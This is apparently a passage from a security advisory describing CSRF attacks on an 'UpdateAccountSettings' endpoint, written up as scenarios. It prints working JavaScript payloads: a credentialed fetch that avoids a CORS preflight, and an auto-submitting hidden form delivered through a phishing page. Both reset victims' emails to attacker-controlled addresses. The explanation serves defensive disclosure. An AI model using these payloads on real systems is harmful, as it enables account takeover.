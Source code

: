 When an authenticated user visits this page, their browser automatically sends the request with their active session cookies. Without antiforgery token validation, the application processes this request as legitimate, changing the user's email address to one controlled by the attacker.

**Scenario 2: CORS Preflight Bypass**
An attacker creates a malicious link in an email or message that, when clicked by the victim, loads a page containing this script:

```javascript
fetch('https://acme-corp.com/Account/UpdateAccountSettings', {
  method: 'POST',
  // Intentionally using simple content type to bypass preflight
  headers: {
    'Content-Type': 'application/x-www-form-urlencoded'
  },
  // Include credentials to send cookies
  credentials: 'include',
  body: 'Email=attacker@evil.com&SecurityQuestion=pet&SecurityAnswer=none'
});

```

Normally, browsers would require a preflight OPTIONS request for complex cross-origin requests, but by using a simple content type, the attacker bypasses this protection. The user must click the malicious link while authenticated to the vulnerable application, but once they do, without content-type verification on the server, the application accepts and processes the malicious request.

**Scenario 3: Mass Account Compromise Through Social Engineering**
An attacker sends a phishing email to multiple Acme Corp users claiming to be from the IT department. The email contains a link to what appears to be a company survey but actually loads a page with malicious JavaScript:

```javascript
// Executes when users visit the phishing page
document.addEventListener('DOMContentLoaded', function() {
  // Create and submit a hidden form to change account settings
  const form = document.createElement('form');
  form.style.display = 'none';
  form.method = 'POST';
  form.action = 'https://acme-corp.com/Account/UpdateAccountSettings';
  
  const emailField = document.createElement('input');
  emailField.type = 'hidden';
  emailField.name = 'Email';
  emailField.value = 'compromised' + Math.floor(Math.random() * 1000) + '@attacker.com';
  
  form.appendChild(emailField);
  document.body.appendChild(form);
  form.submit();
});

```

Users who click the link in the phishing email while authenticated to the Acme Corp application would unknowingly trigger changes to their account settings, potentially leading to a large-scale compromise of user accounts.
